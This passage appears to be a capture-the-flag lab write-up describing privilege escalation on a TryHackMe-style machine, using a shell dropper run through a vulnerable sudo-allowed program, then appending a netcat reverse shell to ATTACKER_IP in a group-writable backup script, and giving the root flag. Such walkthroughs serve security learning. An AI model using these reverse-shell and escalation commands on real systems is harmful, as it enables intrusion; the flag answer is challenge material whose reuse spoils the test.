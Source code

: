 I created a tiny shell dropper that preserves effective UID:

```bash
cat > /home/dale/shell.sh <<'EOF'
#!/bin/bash
echo "[1337] running your shell"
exec /bin/bash -p
EOF
chmod +x /home/dale/shell.sh
```

Run the vulnerable program as gyles:

```bash
sudo -u gyles /home/gyles/admin_checks
# Prompt 1 (name): dale
# Prompt 2 ('date'): /home/dale/shell.sh
```

Result:

```
[1337] running your shell
```

This dropped me into a shell as gyles. To stabilize:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

---

## PrivEsc: gyles → root

Enumerating, I found:

```bash
gyles@ip-10-201-48-98:/home/dale$ ls -l /usr/local/bin/
total 4
-rwxrwxr-x 1 root admin 65 Jan 17  2021 main_backup.sh
```

The `/usr/local/bin/main_backup.sh` file is writable by the `admin` group. The gyles user is in this group. That means we can append a reverse shell to it.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f" >> /usr/local/bin/main_backup.sh
```

Start listener:

```bash
nc -lnvp 1234
```

Wait a minute and then you’re in.

> Q2: Root flag?
> A2: THM{fhqbznavfonq}
